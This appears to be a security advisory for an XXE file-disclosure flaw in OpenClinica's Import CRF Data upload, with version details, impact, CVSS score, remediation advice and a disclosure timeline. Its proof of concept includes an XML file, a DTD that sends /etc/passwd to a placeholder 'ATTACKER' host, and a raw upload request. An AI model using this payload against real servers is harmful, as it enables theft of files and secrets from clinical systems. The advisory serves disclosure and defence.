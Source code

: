 # OpenClinica Import CRF Data – XXE file disclosure

An XML External Entity issue in **Import CRF Data** discloses OS files via error-based XXE.

---

## Product / Versions
- OpenClinica Community Edition  
  - **3.13** – Changeset `74f4df3481b6` (2017-02-28)  
  - **3.12.2** – Changeset `347dcfca3d17` (2016-11-21)

## Affected area
`Tasks → Import CRF Data` (multipart upload parameter: `xml_file`)

## Auth
Authenticated (tested as **Data Manager** and **Clinical Research Coordinator**)

## Summary
The XML parser processes external entities. A crafted XML can read local files (e.g. `/etc/passwd`) and reflect their contents back in the UI error block, confirming **XXE** with file disclosure and potential SSRF.

## Screenshot
![Error-based XXE disclosing /etc/passwd](3.png)

## PoC

**evil.xml**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
```

**malicious.dtd**
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY xxe SYSTEM 'http://ATTACKER/leak?d=%file;'>">
%all;
```

## Raw request (abridged)
```
POST /OpenClinica/ImportCRFData?action=confirm HTTP/1.1
Host: <target>:8080
Content-Type: multipart/form-data; boundary=----X

------X
Content-Disposition: form-data; name="xml_file"; filename="evil.xml"
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE xxe SYSTEM "http://ATTACKER/malicious.dtd">
<xxe>test</xxe>
------X--
```

## Impact
- Read arbitrary local files as the application user (secrets, config, keys)
- Potential SSRF by pointing entities at internal HTTP services

## Severity (suggested)
**CVSS v3.1:** `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` → **7.1 High**  
**CWE:** 611 (XXE)

## Remediation
- Disable DTD/XXE on the XML parser: `disallow-doctype-decl=true`, `external-general-entities=false`, `external-parameter-entities=false`, `FEATURE_SECURE_PROCESSING=true`.
- Validate uploaded XML against a strict schema server-side.
- Minimise file permissions of the OpenClinica/Tomcat user.

## Timeline
- 2025-10-09: Discovered and reproduced on 3.12.2 and 3.13 images.
- 2025-10-09: Attempted to contact vendor, no response.
- 2025-10-23: Reported to VulDB.

